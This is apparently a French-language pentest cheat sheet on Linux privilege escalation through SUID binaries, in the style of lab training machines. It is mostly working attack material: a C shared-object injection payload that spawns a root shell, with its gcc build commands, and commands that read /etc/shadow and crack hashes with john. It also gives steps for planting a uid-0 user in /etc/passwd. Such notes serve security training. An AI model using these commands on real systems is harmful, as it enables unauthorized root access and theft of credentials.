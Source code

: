 ```sh
find / -perm -u=s -type f 2>/dev/null
find / -type f -perm -04000 -ls 2>/dev/null
find / -user root -perm /4000 -exec ls -ldb {} \; 2>/dev/null
```

Liste tout les fichiers qui ont des bits SUID ou SGID définis

```sh
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```

Recherchez tous les exécutables SUID/SGID.
Cela peut aussi afficher les programmes et leurs version une recherche dessus est importante.

---
**Shared Object Injection (injection d'objets partagés.)**
L'  exécutable `/usr/local/bin/suid-so` SUID est vulnérable à l'injection d'objets partagés.

> `strace` permet de voir les appels que fait un programme au système d'exploitation, ce qui peut être utile pour comprendre son fonctionnement.

Exécutez **strace** sur le fichier et recherchez dans la sortie les appels d'ouverture/accès et les erreurs « aucun fichier de ce type » :

```sh
strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
```


> Verifier si l'exécutable tente de charger certain objet partagé dans certain répertoire mais ne la trouve pas; verifier aussi si vous avez des droits d'ecriture sur ces dossier introuvable.


**Exploiter:**

Code C:

```c
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
        setuid(0);
        system("/bin/bash -p");
}
```

```sh
gcc -shared -fPIC -o /FULL_PATH_TO/FILE.so libcalc.c
```

```sh
gcc -shared -fPIC -o /home/user/.config/libcalc.so libcalc.c
```

**Environment Variables (Variables d'environnement)**
L' exécutable **/usr/local/bin/suid-env** peut être exploité car il hérite de la variable d'environnement PATH de l'utilisateur et tente d'exécuter des programmes sans spécifier de chemin absolu.

Utiliser `string /usr/local/suid-env`

Voir la partie [[PATH]]

---
### Exploiter un compte

**Option 1: Craquage de mot de passe**

```sh
cat /etc/passwd > passwd.txt
cat /etc/shadow > shadow.txt
```

```sh
unshadow passwd.txt shadow.txt > crack.txt
```

```sh
john crack.txt --wordlist=/opt/rockyou.txt
```

**Option 2: Cree un utilisateur**
Ajouter un nouvel utilisateur disposant des privilèges root. ce qui contourne le processus fastidieux de craquage de mot de passe

- Nous ajouterons ensuite ce mot de passe avec un nom d'utilisateur au `/etc/passwd`
- basculer vers cet utilisateur nouvellement creer

```sh
openssl passwd -1 salt USERNAME PASSWORD
```

Modele:
```
[NEW_USERNAME]:[NEW_PASSWORD]:0:0:root:/root:/bin/bash
```


---
**Sources de recherche :**
- [GTFOBin](https://gtfobins.github.io/)

